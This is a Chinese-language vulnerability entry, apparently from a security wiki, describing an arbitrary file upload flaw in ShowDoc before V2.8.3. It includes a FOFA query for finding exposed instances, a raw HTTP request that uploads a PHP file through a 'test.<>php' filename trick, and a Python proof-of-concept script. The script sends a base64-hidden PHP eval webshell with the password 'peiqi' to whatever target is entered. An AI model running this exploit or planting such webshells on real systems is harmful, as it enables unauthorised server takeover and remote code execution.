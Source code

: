 # ShowDoc 任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> ShowDoc < V2.8.3

## FOFA

> [!NOTE]
>
> app="ShowDoc"

## 漏洞复现

网站首页如下

![](http://wikioss.peiqi.tech/vuln/sh-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

构造如下数据包上传php文件

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```

![](http://wikioss.peiqi.tech/vuln/sh-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问回显的路径

![](http://wikioss.peiqi.tech/vuln/sh-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import base64
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mTitle: ShowDoc 任意文件上传漏洞                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php?s=/home/page/uploadImg"
    headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
            "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTkyMTM3ODEyNjM3MTYyMzc2MjE3MzYxNwpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9ImVkaXRvcm1kLWltYWdlLWZpbGUiOyBmaWxlbmFtZT0idGVzdC48PnBocCIKQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluCgo8P3BocCBlY2hvICdwcV90ZXN0JztAZXZhbCgkX1BPU1RbcGVpcWldKT8+Ci0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS05MjEzNzgxMjYzNzE2MjM3NjIxNzM2MTctLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "success" in response.text and response.status_code == 200:
            webshell_url = re.findall(r'"url":"(.*?)"', response.text)[0]
            webshell_url = webshell_url.replace('\\','')
            response = requests.get(url=webshell_url, headers=headers,verify=False, timeout=5)
            if "pq_test" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功上传木马 \n[o] 路径为 {}\033[0m".format(target_url, webshell_url))
                print("\033[32m[o] 密码为: peiqi \033[0m")
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        else:
            print("\033[31m[x] 上传失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/sh-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)